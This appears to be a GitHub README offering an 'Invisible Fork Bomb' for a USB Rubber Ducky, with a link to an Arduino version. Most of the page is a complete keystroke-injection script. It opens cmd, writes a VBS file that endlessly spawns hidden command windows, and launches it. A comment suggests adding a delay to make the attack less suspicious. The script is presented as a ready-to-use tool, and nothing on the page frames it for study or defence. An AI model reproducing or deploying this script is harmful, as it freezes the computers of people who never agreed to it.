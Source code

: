 # Invisible Fork Bomb for Arduino and Ducky
The HID script creates a vbs that executes exponentially the software you want (Fork bomb).

# About...
Author: BlueArduino20

Version 1.0

# Code for Rubber Ducky

<pre><code>
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
REM STRING ping localhost -n 10
REM You can uncomment this ^ to delay 10 seconds before starting the fork bomb. (By this way it's less suspicious)
STRING start forkb.vbs
ENTER
</pre></code>

# Code for Arduino

<a href="https://github.com/BlueArduino20/Invisible_fork_bomb/blob/master/Invisible_fork_bomb.ino">Invisible_fork_bomb.ino<a>
